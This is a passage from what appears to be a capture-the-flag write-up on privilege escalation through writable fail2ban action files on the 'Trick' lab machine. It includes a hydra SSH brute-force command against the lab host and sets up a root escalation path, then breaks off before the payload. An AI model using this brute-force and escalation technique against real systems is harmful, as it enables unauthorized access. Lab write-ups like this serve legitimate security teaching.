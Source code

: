 ```sh
sudo -l

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

Also, he belongs to security group:

```sh
michael security
```

Which can change fail2ban config on this particular system:

```bash
> find / -group security 2>/dev/null
/etc/fail2ban/action.d

> ls -ld /etc/fail2ban/action.d/
drwxrwx--- 2 root security 4096 May 26 18:48 /etc/fail2ban/action.d/
```

Let's test if fail2ban works:

```sh
> hydra -l john.doe -P /usr/share/wordlists/rockyou.txt trick.htb ssh -v -I
[INFO] Testing if password authentication is supported by ssh://john.doe@10.10.11.166:22
[INFO] Successful, password authentication is supported by ssh://10.10.11.166:22
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] ssh protocol error
[ERROR] ssh protocol error
```

As we can see, we got blocked while trying to bruteforce ssh.

Now, since we have both the means of restarting fail2ban as root 
and changing it's configuration, we have a chance to escalate 
privileges.

First, let's understand fail2ban configuration.
There’s three parts to a fail2ban configuration:
- A filter defines the patterns to look for in a given log file.  
- An action defines something that can happen (like an iptables rule being put in place).  
- A jail connects a filter to an action.

We will look at jail configuration first: 

```
[DEFAULT]
...SNIP...
banaction = iptables-multiport
banaction_allports = iptables-allports
...SNIP...
```

As we can see, when banning happens, iptables-multiport is called.
Let's see it's configuration:
